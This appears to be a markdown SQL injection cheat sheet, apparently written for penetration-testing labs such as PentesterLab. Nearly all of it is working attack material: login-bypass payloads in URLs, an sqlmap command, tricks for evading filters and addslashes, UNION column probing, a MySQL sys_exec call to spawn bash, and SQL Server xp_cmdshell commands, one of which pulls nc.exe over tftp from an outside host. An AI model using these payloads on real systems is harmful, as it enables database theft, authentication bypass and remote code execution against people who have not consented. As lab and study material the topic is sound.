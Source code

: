 # SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
- Close the string : ' "
- Widen the request : or 1=1
- Add inputs with UNION
- Comment end of request : -- #

````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

## SqlMap

Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
````
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -

sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
````

## Avoid simple filters
### Limit returned results
````
a' or 1=1 LIMIT 1 #
````

Replace Space by Tab %09 
````
username=admin%27%09or%091%3D1%09--%09&password=admin
````

Bypass php function ‘addslashes’ used to insert strings in mysql requests
Use Chinese charset %bf%27  to set a ' in proxy
````
username=a%bf%27+or+1=1+#&password=b
````

Filter sur AND ou OR, les remplacer par
````
AND :   &&   %26%26 
OR  :  || 
````
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
````
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-
````
Filter with : mysql_real_escape_string
````
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1
````

### Note: PHP <=5.2.6
SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
````
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>
````



### Use Union
````
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
````
Identify number of fields in select: here 1,2,3,4 doesn’t generate error


## MySql

````
select sys_exec(‘/bin/bash’);
after bash access, “bash –p” or “sudo su”
````

##  SQL Server 

Connect to:
````
sqsh -S hostname -Uusername -Ppassword
use database;
go
select * from tblTable;
go
````

If xp_cmdshell is enabled
````
exec master..xp_cmdshell 'type c:\"Documents and Settings"\Administrator\Desktop\proof.txt'
go
EXEC master..xp_cmdshell 'tftp -i 192.168.168.168 GET nc.exe'
go
````